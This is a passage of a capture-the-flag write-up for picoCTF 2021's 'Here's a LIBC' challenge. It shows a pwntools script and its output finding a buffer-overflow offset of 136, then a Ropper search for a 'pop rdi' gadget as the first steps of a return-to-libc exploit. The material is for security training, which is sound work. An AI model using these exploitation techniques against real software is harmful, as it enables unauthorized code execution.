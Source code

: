 ```python
    # Cleanup core files
    os.system("rm core.* > /dev/null")
    return offset

offset = find_offset(cyclic(200))
```

Running the script to get the offset
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC]
└─$ ~/python_venvs/pwntools/bin/python find_offset.py
[+] Starting local process '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/vuln_patched': pid 30888
[*] Process '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/vuln_patched' stopped with exit code -11 (SIGSEGV) (pid 30888)
[+] Parsing corefile...: Done
[*] '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/core.30888'
    Arch:      amd64-64-little
    RIP:       0x400770
    RSP:       0x7ffdc029aa78
    Exe:       '/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC/vuln_patched' (0x400000)
    Fault:     0x6261616b6261616a
[*] 4-byte pattern is: jaab
[*] Offset is: 136
```

We can see that the offset is `136`.

### Stage 1  - Calculate Libc base address

Next, we need to calculate the Libc base address with the help of a leaked address of the `puts` function.

In Linux, the first function argument is passed in the RDI-register according to the [calling conventions](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame).

Therefore, we need to find a `pop rdi`-gadget. We can use [Ropper](https://github.com/sashs/Ropper) for this
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Binary_Exploitation/Heres_a_LIBC]
└─$ ~/python_venvs/ropper/bin/ropper -f vuln --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: vuln
0x0000000000400913: pop rdi; ret; 
```

The gadget is at address `0x400913`.
